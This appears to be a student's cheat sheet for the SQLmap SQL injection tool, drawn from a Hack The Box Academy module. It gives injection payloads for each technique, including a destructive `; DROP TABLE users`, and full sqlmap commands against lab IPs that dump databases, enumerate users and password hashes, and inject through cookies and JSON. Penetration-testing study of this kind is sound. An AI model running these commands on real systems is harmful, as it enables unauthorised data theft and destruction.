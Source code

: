 # [SQLmap](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
- Run it via taskbar or with 'sqlmap' or `python sqlmap.py` in terminal
- advanced help is `-hh`
- The technique characters BEUSTQ refers to the following:
    - B: Boolean-based blind - most common (`AND 1=1`)
    - E: Error-based (`AND GTID_SUBSET(@@version,0)`)
    - U: Union query-based (`UNION ALL SELECT 1,@@version,3`)
    - S: Stacked queries (`; DROP TABLE users`)
    - T: Time-based blind (`AND 1=IF(2>1,SLEEP(5),0)`)
    - Q: Inline queries (`SELECT (SELECT @@version) from`)

 - SQLMap Output descriptions - `https://academy.hackthebox.com/module/58/section/696`
 - Best way to properly set up an SQLMap request against a specific target is to sue 'Copy as cURL'. By pasting the clipboard content into the command line, and changing the original command curl to sqlmap, we are able to use SQLMap with the identical curl command - `sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'`
 - Flags for automatic paramter finding - `--crawl, --forms or -g`
 - GET requests usually include -u / --url but POST requests usually contai nthe --data flag - `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`
 - POST parameters `uid` and `name` will be tested for SQLi vulnerability. For example, if we have a clear indication that the parameter uid is prone to an SQLi vulnerability, we could narrow down the tests to only this parameter using -p uid. Otherwise, we could mark it inside the provided data with the usage of special marker * as follows - `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`
 - Can run SQLMap with a HTTP request file using the `-r` flag. Similarly to the case with the '--data' option, within the saved request file, we can specify the parameter we want to inject in with an asterisk (*), such as '/?id=*'.
 - Specify the cookie with `--cookie` or `-H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`
 - To randomize the User-Agent header value use `--random-agent` or `--mobile` to imitate a phone
 - This dumps the out to a folder in root `sqlmap 'http://94.237.61.133:50543/case2.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://94.237.61.133:50543' -H 'Connection: keep-alive' -H 'Referer: http://94.237.61.133:50543/case2.php' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' --data-raw 'id=1' --dump --batch`
- `--dump`              Dump DBMS database table entries
- `--dump-all`          Dump all DBMS databases tables entries
- `--users`             Enumerate DBMS users
- `--passwords`         Enumerate DBMS users password hashes
- `--tables`            Enumerate DBMS database tables

- For cookies injection, copy as cURL, append `--dump --batch --cokie:"id=1*` e.g `sqlmap 'http://94.237.61.133:50543/case3.php' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Referer: http://94.237.61.133:50543/case3.php' -H 'Cookie: id=1' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' --dump --batch --cookie="id=1*"` then go looking in output
- Similar story for JSON, copy as cURL and it kinda just does it for you `sqlmap 'http://94.237.61.133:50543/case4.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/json' -H 'Origin: http://94.237.61.133:50543' -H 'Connection: keep-alive' -H 'Referer: http://94.237.61.133:50543/case4.php' --data-raw '{"id":1}' --batch --dump`
- Run with `--parse-errors` to print DBMS errors to console for grater clarity on any potential issues
- You can use `--proxy` to send all data through burp for closer inspection and poking

